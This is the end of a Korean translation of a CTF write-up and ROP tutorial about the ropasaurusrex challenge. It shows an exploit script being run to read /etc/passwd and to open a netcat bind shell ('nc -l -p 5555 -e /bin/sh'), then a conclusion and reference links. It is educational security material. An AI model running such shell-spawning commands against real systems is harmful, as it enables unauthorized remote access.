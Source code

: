 
그리고 실행 결과입니다.

``` sh
$ ruby sploit.rb "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
[...]
```


물론 `cat /etc/passwd`를 원하는 값으로 바꿀 수 있고, netcat 리스너도 넣을 수
있죠!

``` sh
ron@debian-x86 ~ $ ruby sploit.rb "pwd"
/home/ron
ron@debian-x86 ~ $ ruby sploit.rb "whoami"
ron
ron@debian-x86 ~ $ ruby sploit.rb "nc -vv -l -p 5555 -e /bin/sh" &
[1] 3015
ron@debian-x86 ~ $ nc -vv localhost 5555
debian-x86.skullseclabs.org [127.0.0.1] 5555 (?) open
pwd
/home/ron
whoami
ron
```



## 결론
{: #conclusion}


이게 끝입니다! 방금 믿을 만한, DEP/ASLR을 우회하는 ropasaurusrex 취약점 공격
스크립트를 만들었습니다.


질문이 있다면 댓글을 달거나 저에게 연락해주세요!


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://wiki.skullsecurity.org/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump